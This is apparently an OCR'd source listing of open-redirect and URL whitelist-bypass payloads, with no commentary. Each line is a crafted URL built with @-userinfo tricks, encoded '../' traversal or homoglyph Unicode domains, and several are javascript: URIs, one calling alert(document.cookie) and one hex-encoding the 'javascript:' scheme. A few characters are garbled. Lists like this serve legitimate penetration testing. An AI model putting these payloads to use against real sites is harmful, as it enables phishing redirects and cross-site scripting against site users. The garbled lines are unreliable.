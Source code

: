 ////whitelisted.com@google.com/%2f..
///whitelisted.com@google.com/%2f..
//whitelisted.com@google.com/%2f..
////whitelisted.com@google.com/%2f%2e%2e
///whitelisted.com@google.com/%2f%2e%2e
//whitelisted.com@google.com/%2f%2e%2e
//whitelisted.com+&@google.com#+@whitelisted.com/
//whitelisted.com@https:///Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/%2e%2e
//whitelisted.com@https:///google.com/%2e%2e
//whitelisted.com+&@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ#+@whitelisted.com/
/x:1/:///%01javascript:alert(document.cookie)/
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
//XY>.7d8T\205pZM@whitelisted.com@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//XY>.7d8T\205pZM@whitelisted.com+@Ⓛ𝐨𝗰�𝕝ⅆ𝓸ⓜₐℹⓃ｡Ｐⓦ/
//XY>.7d8T\205pZM@whitelisted.com@google.com/
//XY>.7d8T\205pZM@whitelisted.com+@google.com/
